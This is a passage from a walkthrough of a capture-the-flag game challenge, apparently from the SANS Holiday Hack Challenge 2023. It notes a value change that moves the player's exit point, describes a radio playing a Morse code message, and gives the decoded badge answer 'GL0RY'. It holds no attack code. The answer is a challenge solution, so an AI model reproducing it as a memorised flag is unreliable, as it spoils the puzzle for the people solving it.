0b80 -> 0400 - Exit the start on the top of the screen rather than the bottom, we can change this in game 1 and be able to exit the start on the bottom of the screen directly to the sparkling spot

After exiting orientation, I am located on the bottom of the game now.

![](/docs/assets/images/gcv25.png)

Room after entering the sparkling vortex.![](/docs/assets/images/gcv26.png)

If you interact with the radio on the right, a morse code message begins to play. After decoding the message, you reveal the answer for your badge.

Morse code audio

https://github.com/cmdncontrol/SANS-Holiday-Hack-Challenge-2023/assets/139015523/4a09b005-fb33-4c2e-aa59-38d765d31fe4

Morse code

```
--. .-.. ----- .-. -.--
```

Decoded

```
GL0RY
```

---
